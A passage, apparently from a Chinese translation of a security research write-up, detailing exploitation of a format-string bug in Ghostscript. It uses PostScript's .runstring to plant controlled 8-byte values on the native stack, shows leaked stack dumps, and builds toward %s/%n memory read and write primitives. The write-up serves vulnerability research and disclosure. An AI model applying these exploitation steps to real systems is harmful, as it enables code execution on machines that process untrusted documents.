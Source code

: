 ```

              memcpy(sstate.s_da.buf, base, len);
              daptr = sstate.s_da.buf + len;
          }
          sstate.s_da.base = sstate.s_da.buf;
          sstate.s_da.is_dynamic = false;
      }
```  
  
  
恰巧，这个缓冲区没有被覆盖，我们可以从格式字符串中看到，如果showpage在特殊注释之后立即调用它。为了使注释成为解释器缓冲区中的最后一个标记，我们需要递归调用解释器。这可以通过多种方式完成，但最简单的方法是通过 Ghostscript 的.runstring运算符。可以把它想象成 Javascript 的eval。  
  
为了演示，我们采用之前的示例，但使用 (trimmed) 从堆栈中打印更多 (大约 300 个) 8 字节字%lx：  
  
```
...
/upYMoveCommand (1:%lx\n2:%lx\n3:%lx\n ... 298:%lx\n299:%lx\n300:%lx\n)
...
```  
  
  
我们在之前插入以下内容showpage：  
  
```
(%%XXAAAAAAAA) .runstring
```  
  
  
现在，结果输出如下所示（修剪后）：  
  
```
...
222:7ffe2ee85dcc
223:7ffe2ee85dcc
224:7ffe2ee85dcc
225:5858252500000000
226:4141414141414141
227:0
228:0
229:0
230:7ffe2ee85e30
231:62bea58b57b0
...
```  
  
  
看起来它sstate.s_da.buf大概跨越了堆栈索引 225 – 229。该结构的偏移量使得我们的注释的开头 ( "%%XX") 存储在 225 处的字中，而 226 处的字是我们完全控制的第一个字 ( "AAAAAAAA")。因此，我们可以稍微概括一下我们的代码，以构建一个简单的原语，将 8 字节字符串作为单个字放在堆栈上（真正的堆栈，而不是 Postscript 堆栈！）：  
  
```
/StackString (AAAAAAAA) def % this can be determined at runtime
(%%XX) StackString cat .runstring
```  
  
  
**整合**  
  
现在我们可以将任意 8 字节值放在堆栈上的已知位置，这意味着我们最终可以正确使用它们%s并%n充分发挥它们的潜力，为我们提供内存读写原语！  
  